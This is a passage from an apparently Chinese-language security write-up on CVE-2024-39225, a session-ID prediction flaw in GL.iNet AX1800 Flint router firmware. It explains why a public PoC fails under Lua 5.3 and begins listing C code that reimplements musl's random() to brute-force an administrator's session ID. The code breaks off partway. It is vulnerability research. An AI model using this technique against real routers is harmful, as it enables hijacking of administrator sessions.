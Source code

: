 **CVE-2024-39225**
------------------

随后官方进行了修复，下载 AX1800 Flint v4.5.0 固件解包查看，可以看到在 / sur/sbin/gl-ngx-seesion 的 init 函数中初始化了 unix 时间戳为随机数种子。

![](https://bbs.kanxue.com/upload/attach/202411/802108_QQSWMRBGJWPV5NA.png)

如此乍一看生成的 sid 不会再重复一直在变化，但是由于当下向前的时间是确定的，所以仍然是不安全的，在管理员登录路由器面板不久后，写脚本尝试不断以向前的 unix 时间戳为随机数种子，去生成一些 sid 尝试登录，是可以爆破出管理员的 sid 的，这就是 [CVE-2024-39225]([https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/Bypass](https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/Bypass) the login mechanism.md)。

以及 github 有[这个 CVE 的利用 poc](https://github.com/aggressor0/GL.iNet-Exploits/blob/main/CVE-2024-39225.py)，但经过我自己仿真复现和分析发现有些不太对劲，这个 poc 并不能爆破出来正确的 sid，经过一番排查，确定原因是 / etc/init.d/gl-ngx-session 文件第一行也发生了改动，#!/usr/bin/lua 改为 #!/usr/bin/eco，即 lua 文件变为由后者执行。ida 分析可知，前者是 lua.5.1 引擎，后者是 lua5.3 引擎。而在 lua5.3 版本中，随机数生成实现发生了变动，可以在[官方 lua5.3 源码网站](https://www.lua.org/source/5.3/lmathlib.c.html)查看，一是如果符合 POSIX 标准，就使用 random 和 srandom 函数，而非 rand 和 srand，二是 math.random 函数实现变化，math.randomseed 函数实现不仅会初始化种子，还会先调用一次 l_rand 函数。

![](https://bbs.kanxue.com/upload/attach/202411/802108_6THGNVGXUJRCGJM.png)

![](https://bbs.kanxue.com/upload/attach/202411/802108_YSJ6FPMCXH6S48A.png)

所以 poc 中使用 lua5.1 的随机数生成实现逻辑是复现不出来漏洞的，我们需要按 lua5.3 的来，random 和 srandom 函数可以先使用 ida 分析下 / lib/libc.so 文件，注意到实现有些复杂，根据两个函数的常量线索可以搜到[一份实现](https://github.com/bpowers/musl/blob/master/src/prng/random.c)，经验证是和 GL-iNet 一致的。

![](https://bbs.kanxue.com/upload/attach/202411/802108_THMTBMGD9P696DP.png)

接着便可以撰写爆破 sid 的脚本，随机数生成用 C 实现及 gcc 编译为 so，提供 python 调用，便可复现成功。

![](https://bbs.kanxue.com/upload/attach/202411/802108_VZ6EJP873498APS.png)

```
//myrand-lua53.c
// gcc myrand-lua53.c -fPIC -shared -o myrand-lua53.so
#include #include static uint32_t init[] = {
0x00000000,0x5851f42d,0xc0b18ccf,0xcbb5f646,
0xc7033129,0x30705b04,0x20fd5db4,0x9a8b7f78,
0x502959d8,0xab894868,0x6c0356a7,0x88cdb7ff,
0xb477d43f,0x70a3a52b,0xa8e4baf1,0xfd8341fc,
0x8ae16fd9,0x742d2f7a,0x0d1f0796,0x76035e09,
0x40f7702c,0x6fa72ca5,0xaaa84157,0x58a0df74,
0xc74a0364,0xae533cc4,0x04185faf,0x6de3b115,
0x0cab8628,0xf043bfa4,0x398150e9,0x37521657};
 
static int n = 31;
static int i = 3;
static int j = 0;
static uint32_t *x = init+1;
static uint32_t lcg31(uint32_t x) {
    return (1103515245*x + 12345) & 0x7fffffff;
}
 
static uint64_t lcg64(uint64_t x) {
    return 6364136223846793005ull*x + 1;
}
 
static void *savestate() {
    x[-1] = (n<<16)|(i<<8)|j;
    return x-1;
}
 
static void loadstate(uint32_t *state) {
    x = state+1;
```